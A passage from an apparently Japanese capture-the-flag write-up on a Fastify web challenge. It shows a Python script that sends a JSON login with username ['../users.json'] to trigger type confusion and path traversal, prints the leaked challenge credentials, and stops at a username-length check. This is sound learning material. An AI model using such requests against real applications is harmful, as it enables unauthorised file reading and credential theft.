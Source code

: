 ```javascript
  }

  request.session.set('username', username);
  reply.redirect('/profile');
});
```

Fastify は HTTP リクエストの `Content-Type` ヘッダによって [HTTP リクエストボディをパースする方法を変えます](https://www.fastify.io/docs/latest/ContentTypeParser/)。この Web アプリケーションでは `application/x-www-form-urlencoded` に対応するために `fastify-formbody` を使っていますが、Fastify は[デフォルトで `application/json` に対応しています](https://github.com/fastify/fastify/blob/453028bbfbb34a240bddb146549d91261deac495/lib/contentTypeParser.js#L30)。これを利用すれば、JSON を使って `request.body` の `username` や `password` に配列や `null` を入れることができそうです。やってみましょう。

```python
import json
import re
import requests

URL = 'http://(省略)/avatar-viewer/'

sess = requests.Session()
sess.post(URL + 'login', headers={
  'Content-Type': 'application/json'
}, data=json.dumps({
  'username': ['../users.json'],
  'password': None
}))

r = sess.get(URL + 'myavatar.png')
for username, password in r.json().items():
  if username.startswith('admin'):
    break

print(r.text)
```

```
$ python a.py
{
  "guest": "guest",
  "admin-b01b9d62015f8b68": "b56c497ff08f76536631f2cc1100521ffabfece3d2da67c71176d69dcba41a25"
}
```

`adminUsername` とそのパスワードが得られました。あとはこの認証情報を使ってログインするだけ…かと思いきや、`/login` の処理をよく見ると以下のように `username` が 17 文字以上であれば弾かれてしまうことがわかります。

```javascript
  const { username, password } = request.body;
  if (username.length > 16) {
    request.flash('error', 'username is too long');
    return reply.redirect('/login');
  }
```
